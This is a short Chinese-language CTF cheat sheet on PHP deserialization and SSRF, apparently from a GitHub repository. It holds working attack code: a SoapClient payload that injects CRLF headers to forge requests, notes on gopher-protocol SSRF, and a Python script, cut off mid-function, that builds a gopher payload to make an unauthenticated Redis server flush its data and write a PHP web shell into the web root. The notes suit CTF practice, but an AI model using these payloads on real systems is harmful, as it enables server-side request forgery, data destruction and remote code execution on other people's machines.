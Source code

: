 ### pop链相关

个别特殊情况：

> 1. private成员变量有不可见字符需要用%00填充，在过滤%的情况下，可以使用\00来代替%00，同时，序列化中的小s需要改成大S
>
> 2. 还有一种情况就是php版本大于7.1，可以使用public代替private，不敏感。

反序列化配合**soap类**触发ssrf，使用如下：

```php
$target = 'http://127.0.0.1/flag.php';
$headers = array(
	'X-Forwarded-For: 127.0.0.1',
	'Cookie: PHPSESSID=mz12345678'
);
$b = new SoapClient(
	null,
	array(
		'location' => $target,
		'user_agent'=>"xxxx\r\n".join("\r\n",$headers),
		'uri'  => "xxx")
	);
```

### ssrf相关

curl 和 php_url_parse 处理地址后最终的目标不一样

0.0.0.0代表所有主机的ipv4地址绕过

#### gopher协议

一般是配合curl一起才能使用

协议格式：

```
URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
# gopher的默认端口是70
# 如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码
```

重要的端口: 6379(redis) 3306(mysql)

redis未授权写shell

```python
import urllib
from urllib.parse import quote
protocol="gopher://"
ip="10.0.114.11"      # 运行有redis的主机ip
port="6379"
shell="\n\n<?php system(\"cat /flag\");?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(shell.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
```